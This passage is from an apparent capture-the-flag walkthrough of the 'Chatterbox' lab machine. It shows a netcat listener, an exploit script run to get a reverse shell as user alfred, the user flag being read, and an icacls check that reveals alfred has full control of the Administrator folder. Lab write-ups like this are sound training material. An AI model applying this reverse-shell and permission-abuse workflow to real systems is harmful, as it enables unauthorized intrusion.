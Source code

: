 To achieve a reverse shell, we have to launch a netcat listener and run the custom exploit code.<br>
{% highlight shell %}
root@kali:~# nc -nlvp 4443
listening on [any] 4443 ...

{% endhighlight %}
{% highlight shell %}
root@kali:~# python 36025.py 
---->{P00F}!

root@kali:~#
{% endhighlight %}

Now we got a reverse shell as a user "alfred".
{% highlight shell %}
root@kali:~# nc -nlvp 4443
listening on [any] 4443 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.74] 49160
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
chatterbox\alfred

C:\Windows\system32>
{% endhighlight %}

"user.txt" is in the directory "C:\Users\Alfred\Desktop".
{% highlight shell %}
C:\Users\Alfred\Desktop>type user.txt
type user.txt
72290246dfaedb1e3e3ac9d6fb306334

C:\Users\Alfred\Desktop>
{% endhighlight %}

### 3. Getting Root

We can figure out that we can go to the Admin directory even though we got just a general user.
{% highlight shell %}
C:\Users\Administrator\Desktop>whoami
whoami
chatterbox\alfred

C:\Users\Administrator\Desktop>type root.txt
type root.txt
Access is denied.

C:\Users\Administrator\Desktop>
{% endhighlight %}

By using "icacls" command, we can figure out Alfred has the following permission for the directory "C:\Users\Administrator".<br>
1. Full Permission
2. Object Inheritance (Permission for this folder and subfolders)
3. Container Inheritance (Permission for files in this folder and subfolders)
{% highlight shell %}
C:\Users>icacls administrator
icacls administrator
administrator NT AUTHORITY\SYSTEM:(OI)(CI)(F)
              CHATTERBOX\Administrator:(OI)(CI)(F)
              BUILTIN\Administrators:(OI)(CI)(F)
              CHATTERBOX\Alfred:(OI)(CI)(F)

Successfully processed 1 files; Failed processing 0 files

C:\Users>